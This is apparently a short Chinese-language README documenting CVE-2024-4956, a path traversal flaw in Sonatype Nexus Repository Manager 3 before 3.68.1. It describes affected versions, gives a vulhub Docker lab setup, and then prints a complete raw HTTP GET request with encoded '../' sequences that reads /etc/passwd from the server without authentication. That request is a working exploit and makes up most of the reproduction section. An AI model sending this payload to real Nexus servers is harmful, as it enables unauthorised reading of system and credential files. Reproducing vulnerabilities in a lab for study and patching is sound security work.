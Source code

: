 # CVE-2024-4956

> **Created by：**A-little-dragon
> **Team：**TracelessSec
> **漏洞描述：**Nexus Repository Manager 3  目录穿越漏洞，可读取任意文件。



# 0x01 漏洞简介 

Nexus Repository Manager，是Sonatype公司的一个产品。 它是一个强大的仓库管理器，极大地简化了内部仓库的维护和外部仓库的访问。

在 Nexus Repository 3.68.1 之前的版本中发现了一个路径遍历漏洞。此漏洞允许攻击者构造一个 URL 来下载 Nexus Repository 应用程序范围之外的系统文件，而无需任何身份验证。

# 0x02 影响范围

该漏洞影响 `Sonatype Nexus Repository Manager 3.0` 至 `3.68.0` 版本。

# 0x03 前置条件

攻击者必须具有 `Sonatype Nexus Repository 3` 实例的网络访问权限。

# 0x04 环境搭建

```bash
git clone https://github.com/vulhub/vulhub
cd vulhub/nexus/CVE-2024-4956
systemctl restart docker
docker compose up -d
```

# 0x05 漏洞复现

```
GET /%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd HTTP/1.1
Host: 192.168.100.141:8081
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Length: 21
Connection: close
```

![Untitled](image/Untitled.png)